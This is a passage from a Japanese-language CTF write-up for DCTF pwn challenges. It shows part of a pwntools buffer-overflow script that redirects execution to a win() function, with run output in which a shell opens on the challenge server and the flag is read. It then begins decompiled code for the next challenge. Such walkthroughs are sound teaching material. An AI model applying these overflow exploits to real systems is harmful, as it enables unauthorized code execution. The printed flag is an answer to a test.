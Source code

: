 ```Python
payload += p64(0x0000000000400697)  # win()

s.sendlineafter("tell me a joke\n", payload)
s.interactive()
```

<br /><br />
実行結果：
<pre>
$ ./pwn_sanity_check_solve.py
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
very good, here is a shell for you.
spawning /bin/sh process
wush!
$> If this is not good enough, you will just have to try harder :)
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ ls
flag.txt
pwn_sanity_check
startService.sh
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
</pre>


<br />

Flag: `dctf{Ju5t_m0v3_0n}`


<br /><br />
## [Pwn]: Pinch me (100 points)
- - -
### Challenge
> This should be easy!

Attachment:

- pinch_me (ELF 64bit)



<br />
### Solution
まず、Ghidraでコードを確認します。main()からは、vuln()が呼ばれています。

{{< highlight c "linenos=table,hl_lines=13-14" >}}
void vuln(void)

{
  char local_28 [24];
  int local_10;
  int local_c;
  